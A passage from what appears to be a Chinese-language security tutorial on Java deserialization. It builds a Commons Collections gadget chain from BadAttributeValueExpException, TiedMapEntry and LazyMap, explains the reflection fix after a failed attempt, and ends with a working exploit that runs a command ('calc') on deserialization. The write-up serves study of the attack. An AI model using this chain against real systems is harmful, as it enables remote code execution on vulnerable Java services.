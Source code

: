 那么也是拼接到`LazyMap#get()`就好了

由于这里组长并没有给出EXP，在自己有一定的理解情况下补充一下

‍

一开始我打算直接加入这一行代码就可以完成逻辑了

```java
BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(tiedMapEntry);
```

但是发现并没有成功，所以继续断点看看

![image](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-7a352e6e29777219eba1993814000de5834d54cd.png)

发现这个`valObj`是String型的，所以得要用反射去把这个值修改为`TiedMapEntry#ToString`即可

‍

最后修改为

```java
     Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})} ;

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantFactory(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "qq");
        lazyMap.remove("qq");

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Class b = badAttributeValueExpException.getClass();
        Field bfield =  b.getDeclaredField("val");
        bfield.setAccessible(true);
        bfield.set(badAttributeValueExpException,tiedMapEntry);

        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(lazyMap,chainedTransformer);

//        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
```
